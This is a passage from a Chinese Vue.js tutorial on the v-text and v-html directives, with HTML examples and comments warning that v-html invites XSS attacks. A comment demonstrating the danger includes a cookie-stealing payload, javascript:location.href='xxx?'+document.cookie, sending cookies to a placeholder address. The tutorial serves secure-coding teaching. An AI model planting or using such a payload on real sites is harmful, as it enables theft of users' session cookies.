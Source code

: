 
## 15	内置指令

### ①v-text指令

```html
<body>
    <!-- 				
        v-text指令：
            1.作用：向其所在的节点中渲染文本内容。
            2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。
    -->
    <div id="root">
        <!-- v-test -->
        <h1 v-text="name"></h1>
        <h1>您好，{{name}}</h1>
    </div>
    <script>
        Vue.config.productionTip = false
        const vm = new Vue({
            el: '#root',
            data: {
                name: "迪迦奥特曼"
            }
        })
    </script>
</body>
```



### ②v-html指令

```html
<body>
    <!-- 
        v-html指令：
            1.作用：向指定节点中渲染包含html结构的内容。
            2.与插值语法的区别：
                (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
                (2).v-html可以识别html结构。
            3.严重注意：v-html有安全性问题！！！！
                (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
                    xss攻击：模仿用户行为，比如拿到存在浏览器上的cookie来绕过登录验证
                (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
            补充：可以设置cookie的HttpOnly属性来防止xss攻击，这个属性就是只能Http请求的时候才能取出来
	-->
    <div id="root">
        <div v-html="msg"></div>
        <div v-html="str"></div>
    </div>
    <script>
        Vue.config.productionTip = false
        const vm = new Vue({
            el: "#root",
            data: {
                msg: "<h3>我是靓仔智</h3>",
                /* 
                    演示危险行为
                        设置：
                            这里在浏览器手动设置两个cookie值，分别是a=1,b=2
                            通过document.cookie可以得到HttpOnly=false的cookie值
                        注意：javascript:location.href='xxx?'+document.cookie中的“+”两边不能有空格，有的话就不能执行
                */
```